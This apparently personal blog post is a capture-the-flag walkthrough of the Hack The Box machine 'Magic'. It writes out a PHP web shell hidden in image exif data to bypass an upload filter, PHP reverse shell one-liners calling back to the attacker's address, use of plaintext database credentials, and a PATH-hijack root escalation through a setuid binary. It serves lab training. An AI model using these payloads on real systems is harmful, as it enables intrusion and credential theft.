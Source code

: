 ```yaml
---
title: "HTB Magic Write-up"
date: 2020-05-12T00:00:00-00:00
summary: A write-up for Magic on hackthebox.eu
tags: ['hackthebox', 'ctf']
---
```


A write up for another HTB machine, Magic.

Starting off with a port scan, I noticed a web server running and began enumerating directories with gobuster.

```text
root@kali:~# nmap -Pn 10.10.10.185

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```text
root@kali:~# ./gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 200)
/assets (Status: 301)
/upload.php (Status: 302)
```

Checking out the website a little bit, it appears to be some sort of image hosting application. The ability to upload images appears to be gated by `login.php`. I wasn’t able to view `upload.php` in my browser due to a redirect. However, after requesting the page with curl, I was able to view it locally.

```bash
curl http://10.10.10.185/upload.php > upload.html
```

After updating my pages href links and form to point back to `http://10.10.10.185`, the formatting returns. I am still redirected to the login page after trying to upload an image, which leads me to believe it didn’t work.

However, after seeing the paths of the images on the site’s main page `/images/uploads/<file>`, I tried navigating to where my image should be and it was indeed uploaded.

I immediately tried to upload a PHP web shell, but the file upload appears to only allow image file extensions. After doing a little reading on how to bypass file type restrictions, I had to do two things.

The first thing I needed to do was embed PHP code in my image’s metadata using `exiftool`. Here I’m embedding a simple PHP web shell in `image.png` comment field.

```text
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.png
```

Second, we simply need to change the file extension type to `image.php.png`. After uploading our web shell, we can visit it and see that we have limited access with the `www-data` user.

```text
curl -o - http://10.10.10.185/images/uploads/image.php.png?cmd=whoami

<cipher text>
���2tEXtComment<pre>www-data
���
IDATx�Ѕa�@�=������L�Q   Ҏ����w��D$�->jϤ��
<cipher text>
```

Our output isn’t very elegant, so I’d like to upgrade my shell to make enumeration a little bit easier. I created a second `image2.php.png`, but this time I embedded a PHP reverse shell.

```text
exiftool -Comment='<?php $sock=fsockopen("10.10.14.15",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>' image.php.png
```

After uploading the second shell and setting up a local netcat listener, request the page to create the reverse shell. After receiving the connection, I use python to create a slightly friendlier shell.

```text
root@kali:~# nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.185] 57914
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
```

Once I was able to browse around with a shell, I immediately found a database file containing credentials for the local MySQL database, close to `www-data` home/working directory.
```text
www-data@ubuntu:/var/www/Magic$ cat db.php5
 
<?php
class Database
{                                                                                                                                                 
    private static $dbName = 'Magic' ;                                                                                                            
    private static $dbHost = 'localhost' ;                                                                                                        
    private static $dbUsername = 'theseus';                                                                                                       
    private static $dbUserPassword = 'iamkingtheseus';
<snip>
```

`netstat` revealed that a MySQL database is indeed listening. Normally, I would just use the mysql CLI client to connect, but it was not installed. I checked which mysql binaries were avilable and decided to simply dump the database.

```text
www-data@ubuntu:/var/www/Magic$ ls -lh /usr/bin|grep mysql
-rwxr-xr-x  1 root root     3.5M Jan 21 06:10 mysql_config_editor
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqladmin
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqldump
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqlshow


www-data@ubuntu:/var/www/Magic$ mysqldump -u theseus -p Magic > dump.sql
```

A mysql dump will contain all of the database queries required to rebuild the database. In our case, the dump contained a set of credentials for another user, `theseus`.

```text
www-data@ubuntu:/var/www/Magic$ cat dump.sql
<snip>
-- Dumping data for table `login`
--
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
<snip>

www-data@ubuntu:/var/www/Magic$ su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ whoami
theseus

theseus@ubuntu:/var/www/Magic$ cat ~/user.txt
<user_flag>
```

On to root privledge escalation, I added my keys and SSH’d as `theseus`. I was stuck for quite a bit and ended up relying on two enumeration scripts, `linpeas.sh` and `pspy64`.

https://github.com/DominicBreuker/pspy

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

Linpeas highlighted `/bin/sysinfo` as concerning, but I didn’t immediately understand why.

```text
theseus@ubuntu:~$ sh linpeas.sh
<snip>
[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
<snip>
```

I spent a long time running other enumeration scripts and trying to understand how sysinfo works. Eventually after understanding fdisk and while monitoring command activity with `pspy64`, I noticed that `/bin/sysinfo` was relying on the `PATH` to find `fdisk` when running.

I created my own `fdisk` executable, which simply spawns a PHP reverse shell, and added it’s location to my current path. Executing `/bin/sysinfo` spawns the reverse shell.

```text
theseus@ubuntu:~$ echo '$sock=fsockopen("10.10.14.15",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);' > fdisk
theseus@ubuntu:~$ chmod 755 fdisk
theseus@ubuntu:~$ export PATH=/home/theseus:$PATH
theseus@ubuntu:~$ /bin/sysinfo
<snip>
```

We catch the reverse shell with a local listener and can read the root flag.

```text
root@kali:~# nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.185] 57914
/bin/sh: 0: can't access tty; job control turned off

$ whoami
root

$ cat /root/root.txt
<root_flag>
```